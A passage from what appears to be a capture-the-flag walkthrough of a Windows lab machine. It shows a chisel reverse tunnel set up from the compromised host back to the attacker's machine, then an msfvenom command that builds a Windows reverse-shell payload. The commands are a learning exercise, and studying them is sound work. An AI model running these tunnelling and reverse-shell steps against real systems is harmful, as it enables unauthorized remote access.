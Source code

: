 Now let's tunnel it. 

First set up the chisel server in your machine using the command below.

`./chisel_linux server -p 8000 --reverse`

![image](https://raw.githubusercontent.com/0xZuk0/matrix/master/assets/Buff/chiselserver.png)

Now go to vulnerable machine and type the following command inside the `C:\xampp\htdocs\gym\upload` folder.

`cmd.exe command : chisel.exe client <your tun0 IP address> 8000 R:8888:127.0.0.1:8888`

`powershell.exe command : ./chisel.exe client <your tun0 IP address 8000 R:8888:127.0.0.1:8888>`

![image](https://raw.githubusercontent.com/0xZuk0/matrix/master/assets/Buff/chiselclient.png)

> **NOTE** : In the above image i am using powershell. You have to use cmd.exe command.

### Creating Payload

Now's Let's create out shellcode to get a reverse shell in out machine. To create our shellcode we are going to use `msfvenom`. If you don't know about msfvenom [here](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) is the link. In short msfvenom is a tool use to make shellcodes. So let's create out payload 

Enter the following command in your machine

`msfvenom -p windows/shell_reverse_tcp LHOST=<your tun0 IP Address> LPORT=4444`

```
 -p     :  it specifies the type of payload we are creating
 LHOST  :  Our Machine IP Address
 LPORT  :  Port Number in which connection will be stablished
```
